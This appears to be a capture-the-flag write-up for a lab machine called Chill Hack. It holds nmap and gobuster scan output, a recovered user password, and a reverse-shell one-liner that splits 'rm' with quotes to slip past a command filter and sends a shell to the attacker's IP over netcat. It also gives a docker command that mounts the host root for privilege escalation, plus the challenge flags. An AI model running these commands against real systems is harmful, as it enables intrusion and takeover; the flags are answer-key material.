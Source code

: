 Chill_Hack.doc
------------------


Nmap Results:
------------------
nmap -sC -sV 10.10.180.242
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-15 11:15 EDT
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 76.30% done; ETC: 11:15 (0:00:01 remaining)
Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 11:15 (0:00:03 remaining)
Nmap scan report for 10.10.180.242
Host is up (0.084s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.18.26.95
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Game Info
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.44 seconds

FTP Anonymous Note.txt :
---------------------------------
Anurodh told me that there is some filtering on strings being put in the command -- Apaar


Gobuster :
----------------
gobuster dir -u http://10.10.180.242 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt            
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.180.242
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/15 11:17:16 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 315] [--> http://10.10.180.242/images/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.180.242/css/]   
/js                   (Status: 301) [Size: 311] [--> http://10.10.180.242/js/]    
/fonts                (Status: 301) [Size: 314] [--> http://10.10.180.242/fonts/] 
/secret               (Status: 301) [Size: 315] [--> http://10.10.180.242/secret/]
Progress: 93246 / 220561 (42.28%)                                                ^C
[!] Keyboard interrupt detected, terminating.
                                                                                  
===============================================================
2022/09/15 11:31:13 Finished
===============================================================

Users Found :
--------------------
anurodh: !d0ntKn0wmYp@ssw0rd
apaar: no need
aurick: no need

revese shell syntax:
---------------------------
r"m" /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.26.95 9799 >/tmp/f

GTFobin For Root in Docker:
-----------------------------
./docker run -v /:/mnt --rm -it alpine chroot /mnt sh

--------------------
Flags Found!
--------------------
User Flag : {USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
Root Flag : {ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}